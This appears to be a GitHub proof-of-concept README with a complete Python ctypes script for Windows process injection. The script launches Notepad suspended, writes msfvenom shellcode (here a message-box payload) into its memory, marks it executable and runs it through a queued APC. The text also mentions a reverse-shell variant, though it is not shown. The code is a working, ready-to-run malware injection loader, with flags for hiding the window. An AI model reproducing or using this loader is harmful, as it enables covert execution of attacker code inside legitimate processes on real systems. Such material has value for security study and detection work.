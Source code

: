 # Process Creation and Shellcode Execution
## Description

This POC demonstrates how to create a new process (in this case, launching an instance of Notepad) and then inject and execute shellcode within that process. Essentially, the code shows a technique often used in malware or penetration testing—code injection—where executable code (shellcode) is written into the memory space of another process and then executed. The POC uses Python’s ctypes library to interface directly with Windows API functions.

## What the POC does
1. Process Creation:
  The code begins by creating a new process (Notepad.exe) using the Windows API call CreateProcessA. In many cases, the process is started in a suspended state (using flags such as CREATE_SUSPENDED), which gives the POC time to inject the shellcode before the process begins normal execution.

2. Memory Allocation in Remote Process:
  Using VirtualAllocEx, the POC allocates a block of memory in the target process (Notepad). This allocated memory will later hold the shellcode. The allocation is done with the combined flags MEM_COMMIT | MEM_RESERVE and initially set to PAGE_READWRITE.

3. Shellcode Injection:
  The shellcode, which is generated via tools like msfvenom, is stored as a byte string in the code. The function WriteProcessMemory writes this shellcode into the allocated memory within the remote process.

4. Changing Memory Protection:
  To allow the shellcode to be executed, the memory protection is changed from PAGE_READWRITE to PAGE_EXECUTE_READ using VirtualProtectEx. This is a critical step because Windows requires memory pages to have execute permissions if they are to be run as code.

5. Executing the Shellcode:
  Instead of directly creating a new thread to execute the shellcode (which is an option using CreateRemoteThread—although it’s commented out here), the POC uses QueueUserAPC (Asynchronous Procedure Call). An APC is queued to the suspended thread, pointing to the shellcode’s address. Finally, ResumeThread is called on the target process’s main thread, which then processes the queued APC and executes the shellcode.

6. Two Variants of Shellcode:
   1. Generic Shellcode: The first part of the code uses shellcode generated by msfvenom.
   2. Reverse Shell Payload: Later, the POC demonstrates a variant intended to provide a reverse shell. The reverse shell payload is also generated via msfvenom (with parameters like LHOST and LPORT to define the attacker’s IP and port).


## Code
   ```bash
from ctypes import *
from ctypes import wintypes
import subprocess

kernel32 = windll.kernel32
SIZE_T = c_size_t
LPTSTR = POINTER(c_char)
LPBYTE = POINTER(c_ubyte)

VirtualAllocEx = kernel32.VirtualAllocEx
VirtualAllocEx.argtypes = (wintypes.HANDLE, wintypes.LPVOID, SIZE_T, wintypes.DWORD, wintypes.DWORD)
VirtualAllocEx.restype = wintypes.LPVOID

WriteProcessMemory = kernel32.WriteProcessMemory
WriteProcessMemory.argtypes = (wintypes.HANDLE, wintypes.LPVOID, wintypes.LPCVOID, SIZE_T, POINTER(SIZE_T))
WriteProcessMemory.restype = wintypes.BOOL

class _SECURITY_ATTRIBUTES(Structure):
	_fields_ = [('nlengths', wintypes.DWORD),
			('lpSecurityDescriptor', wintypes.LPVOID),
			('bInheritHandle', wintypes.BOOL),]
							
SECURITY_ATTRIBUTES = _SECURITY_ATTRIBUTES
LPSECURITY_ATTRIBUTES = POINTER(_SECURITY_ATTRIBUTES)
LPTHREAD_START_ROUTINE = wintypes.LPVOID

CreateRemoteThread = kernel32.CreateRemoteThread
CreateRemoteThread.argtypes = (wintypes.HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, wintypes.LPVOID, wintypes.DWORD, wintypes.LPDWORD)
CreateRemoteThread.restype = wintypes.HANDLE

MEM_COMMIT = 0x00001000
MEM_RESERVE = 0x00002000
PAGE_READWRITE = 0x04
EXECUTE_IMMEDIATELY = 0X0
PROCESS_ALL_ACCESS = (0X000F0000 | 0X00100000 | 0X00000FFF)

VirtualProtectEx = kernel32.VirtualProtectEx
VirtualProtectEx.argtypes = (wintypes.HANDLE, wintypes.LPVOID, SIZE_T, wintypes.DWORD, wintypes.LPDWORD)
VirtualProtectEx.restype = wintypes.BOOL

# process = subprocess.Popen(["notepad.exe"])
# print("Starting process with PID => {}".format(process.pid))

class STARTUPINFO(Structure):
	_fields_ = [("cb", wintypes.DWORD),
			("lpReserved", LPTSTR),
			("lpDesktop", LPTSTR),
			("lpTitle", LPTSTR),
			("dwX", wintypes.DWORD),
			("dwY", wintypes.DWORD),
			("dwXSize", wintypes.DWORD),
			("dwYSize", wintypes.DWORD),
			("dwXCountChars", wintypes.DWORD),
			("dwYCountChars", wintypes.DWORD),
			("dwFillAttribute", wintypes.DWORD),
			("dwFlags", wintypes.DWORD),
			("wShowWindow", wintypes.WORD),
			("cbReserved2", wintypes.WORD),
			("lpReserved2", LPBYTE),
			("hStdInput", wintypes.HANDLE),
			("hStdOutput", wintypes.HANDLE),
			("hStdError", wintypes.HANDLE),]

class PROCESS_INFORMATION(Structure):
	_fields_ = [("hProcess", wintypes.HANDLE),
			("hThread", wintypes.HANDLE),
			("dwProcessId", wintypes.DWORD),
			("dwThreadId", wintypes.DWORD),]

CreateProcessA = kernel32.CreateProcessA
CreateProcessA.argtypes = (wintypes.LPCSTR, wintypes.LPSTR, LPSECURITY_ATTRIBUTES, LPSECURITY_ATTRIBUTES, wintypes.BOOL, wintypes.DWORD, wintypes.LPVOID, wintypes.LPCSTR, POINTER(STARTUPINFO), POINTER(PROCESS_INFORMATION)) 
CreateProcessA.restype = wintypes.BOOL

#Now we use metasploit to develop our shellcode: msfvenom -a x64 -p windows/x64/messagebox TITLE=hello TEXT="This is you worst enemy :)" -f py
buf =  b""
buf += b"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00"
buf += b"\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65"
buf += b"\x48\x8b\x52\x60\x3e\x48\x8b\x52\x18\x3e\x48\x8b"
buf += b"\x52\x20\x3e\x48\x8b\x72\x50\x3e\x48\x0f\xb7\x4a"
buf += b"\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02"
buf += b"\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52"
buf += b"\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
buf += b"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0"
buf += b"\x74\x6f\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44"
buf += b"\x8b\x40\x20\x49\x01\xd0\xe3\x5c\x48\xff\xc9\x3e"
buf += b"\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31"
buf += b"\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75"
buf += b"\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd6"
buf += b"\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
buf += b"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e"
buf += b"\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e"
buf += b"\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20"
buf += b"\x41\x52\xff\xe0\x58\x41\x59\x5a\x3e\x48\x8b\x12"
buf += b"\xe9\x49\xff\xff\xff\x5d\x3e\x48\x8d\x8d\x2f\x01"
buf += b"\x00\x00\x41\xba\x4c\x77\x26\x07\xff\xd5\x49\xc7"
buf += b"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x0e\x01\x00"
buf += b"\x00\x3e\x4c\x8d\x85\x29\x01\x00\x00\x48\x31\xc9"
buf += b"\x41\xba\x45\x83\x56\x07\xff\xd5\x48\x31\xc9\x41"
buf += b"\xba\xf0\xb5\xa2\x56\xff\xd5\x54\x68\x69\x73\x20"
buf += b"\x69\x73\x20\x79\x6f\x75\x20\x77\x6f\x72\x73\x74"
buf += b"\x20\x65\x6e\x65\x6d\x79\x20\x3a\x29\x00\x68\x65"
buf += b"\x6c\x6c\x6f\x00\x75\x73\x65\x72\x33\x32\x2e\x64"
buf += b"\x6c\x6c\x00"

def verify(x):
	if not x:
		raise WinError()
		
startup_info = STARTUPINFO()
startup_info.cb = sizeof(startup_info)

startup_info.dwFlags = 1
startup_info.wShowWindow = 1 #change the value to 0 if you want to hide the window

process_info = PROCESS_INFORMATION()

CREATE_NEW_CONSOLE = 0x00000010
CREATE_NO_WINDOW = 0x08000000
CREATE_SUSPENDED = 0x00000004

created = CreateProcessA(b"C:\\Windows\\System32\\notepad.exe", None, None, None, False, CREATE_SUSPENDED | CREATE_NO_WINDOW, None, None, byref(startup_info), byref(process_info))

verify(created)

pid = process_info.dwProcessId
h_process = process_info.hProcess
thread_id = process_info.dwThreadId
h_thread = process_info.hThread

print("Started process => Handle:{}, PID:{}, TID:{}".format(h_process, pid, thread_id))

remote_memory = VirtualAllocEx(h_process, False, len(buf), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)
verify(remote_memory)
print("Memory allocated => ", hex(remote_memory))

write = WriteProcessMemory(h_process, remote_memory, buf, len(buf), None)
verify(write)
print("Bytes written => {}".format(len(buf)))

PAGE_EXECUTE_READ = 0x20

old_protection = wintypes.DWORD(0)
protect = VirtualProtectEx(h_process, remote_memory, len(buf), PAGE_EXECUTE_READ, byref(old_protection))
verify(protect)
print("Memory protection updated from {} to {}".format(old_protection.value, PAGE_EXECUTE_READ))

#rthread = CreateRemoteThread(h_process, None, 0, remote_memory, None, EXECUTE_IMMEDIATELY, None)
#verify(rthread)

PAPCFUNC = CFUNCTYPE(None, POINTER(wintypes.ULONG))

QueueUserAPC = kernel32.QueueUserAPC
QueueUserAPC.argtypes = (PAPCFUNC, wintypes.HANDLE, POINTER(wintypes.ULONG))
QueueUserAPC.restype = wintypes.BOOL

ResumeThread = kernel32.ResumeThread
ResumeThread.argtypes = (wintypes.HANDLE, )
ResumeThread.restype = wintypes.BOOL

rqueue = QueueUserAPC(PAPCFUNC(remote_memory), h_thread, None)
verify(rqueue)
print("Queueing APC thread => {}".format(h_thread))

rthread = ResumeThread(h_thread)
verify(rthread)
print("Resuming thread!")
